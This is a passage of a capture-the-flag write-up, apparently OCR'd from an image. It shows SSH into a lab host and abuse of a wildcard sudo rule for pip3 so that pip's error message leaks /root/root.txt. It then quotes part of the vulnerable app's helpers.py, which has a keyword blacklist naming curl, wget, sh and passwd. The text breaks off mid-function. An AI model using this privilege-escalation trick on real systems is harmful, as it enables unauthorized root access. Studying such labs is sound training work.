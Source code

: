 ```bash
```
- ssh to the machine
```bash
❯ ssh user@10.10.56.213 -i id_ed25519
```

Normally after ssh into the server, Im going to list out the allowed commands for invoking user (using sudo) on current host using `sudo -l`.
```bash
user@wgym2022:~$ sudo -l
Matching Defaults entries for user on wgym2022:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user may run the following commands on wgym2022:
    (ALL) NOPASSWD: /usr/bin/pip3 install http\://git.wgmyinternal.com.my/repositories/*
```

We can run pip3 install with specific repository and any options because of the wildcare (*) based on this line `/usr/bin/pip3 install http\://git.wgmyinternal.com.my/repositories/*`. By looking at `pip3 install` help options, we can install from given file by using `-r` or `--requirements` options. For example, when we try to install python module using root.txt, it will throw an error because the module on the file is not available, and pip will display the content of the file.
```bash
user@wgym2022:~/.ssh$ sudo /usr/bin/pip3 install http://git.wgmyinternal.com.my/repositories/* -r /root/root.txt
ERROR: Invalid requirement: 'wgmy{c06a9ec6a4aced3c13c11bdd0a54cc70}' (from line 1 of /root/root.txt)
```

### Understand behind the scenes

After I got shell, I've downloaded the source code for the webapp to further analyze on register and login bug. Among all files, I got interested with `app.py` and `helpers.py`. On `helpers.py`, it performs three checking:
- `def containsBadChar` : Check if our payload contains blacklist keywords
- `def allowed_file` : Check if user supply with allowed file extension like `.png`, `.jpg`, `.jpeg`, `.gif`
- `def checkFileType` : Check file type using system command `file --brief`. (*thats why we got an rce*)

```python
   1   │ #!/usr/bin/env python3
   2   │ import re
   3   │ import subprocess
   4   │ from urllib.parse import unquote
   5   │ 
   6   │ def containsBadChar(url):
   7   │     blackLists = [
   8   │         'etc',
   9   │         'passwd',
  10   │         'home',
  11   │         'opt',
  12   │         'var',
  13   │         'tmp',
  14   │         'cat',
  15   │         'tail',
  16   │         'curl',
  17   │         'wget',
  18   │         'sh',
  19   │         'python',
  20   │         'ls',
  21   │         '..',
  22   │     ]
  23   │     for i in blackLists:
  24   │         if i in url:
```